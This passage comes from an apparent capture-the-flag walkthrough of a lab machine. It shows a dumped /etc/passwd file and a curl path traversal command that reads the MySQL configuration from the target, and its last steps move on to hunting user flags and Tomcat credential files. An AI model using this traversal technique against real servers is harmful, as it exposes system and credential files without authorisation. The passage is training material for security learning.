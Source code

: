 ```sh
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:112:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:122:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```
5. Now that we are able to read random files on the system I was trying to search for interesting stuff based on /etc/passwd file:
6. Tryied to read mysql config as we have a mysql user:

```sh
curl --path-as-is http://10.10.191.125:8888/../../../../../../../../../../../../../../../../../../../../etc/mysql/my.cnf
#
# The MySQL database server configuration file.
#
# You can copy this to one of:
# - "/etc/mysql/my.cnf" to set global options,
# - "~/.my.cnf" to set user-specific options.
# 
# One can use all long options that the program supports.
# Run program with --help to get a list of available options and with
# --print-defaults to see which it would actually understand and use.
#
# For explanations see
# http://dev.mysql.com/doc/mysql/en/server-system-variables.html

#
# * IMPORTANT: Additional settings that can override those from this file!
#   The files must end with '.cnf', otherwise they'll be ignored.
#

!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mysql.conf.d/
```
7. Tried to read random flag.txt files inside both home locations for user *orville* and *wilbur* with no luck
8. Finally tried to read user config file for Tomcat using default location:
